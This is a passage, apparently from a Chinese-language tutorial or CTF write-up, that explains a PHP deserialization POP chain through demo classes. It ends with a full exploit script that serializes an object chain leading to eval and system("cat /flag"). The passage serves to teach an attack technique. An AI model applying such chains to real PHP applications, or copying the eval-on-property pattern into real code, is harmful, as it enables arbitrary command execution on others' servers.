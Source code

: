 ```php
public function __tostring(){
        $this->d2text1->d1text1();
    }
```

调用了一个`d1text1()`方法，这个方法并不存在，在这里会触发魔术方法`__call()`。

至此pop链就已经完成了。

流程如下：

通过`unserialize($a);`反序列化时触发`demo1`类中的`__destruct()`方法，实例化会执行`echo`函数，`echo`函数会触发`__tostring()`魔术方法，实例化会调用不存在的`d1text1()`函数，从而触发魔术方法`__call()`，导致`eval($this->d3text1);`函数的调用，从而执行任意命令

```pop
demo1->demo2->demo3 
```

exp如下： 

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class demo1{
    public $d1text1;
    public $d1text2;
    public function __destruct(){
        echo $this->d1text1;
    }
}
class demo2{
    public $d2text1;
    public $d2text2;
    public function __tostring(){
        $this->d2text1->d1text1();
    }

}
class demo3{
    public $d3text1;
    public $d3text2;
    public function __call($method, $args){
        eval($this->d3text1);
    }
}

$a = new demo1();
$a->d1text1 = new demo2();
$a->d1text1->d2text1 = new demo3();
$a->d1text1->d2text1->d3text1 = 'system("cat /flag");';
echo serialize($a);

?>
```
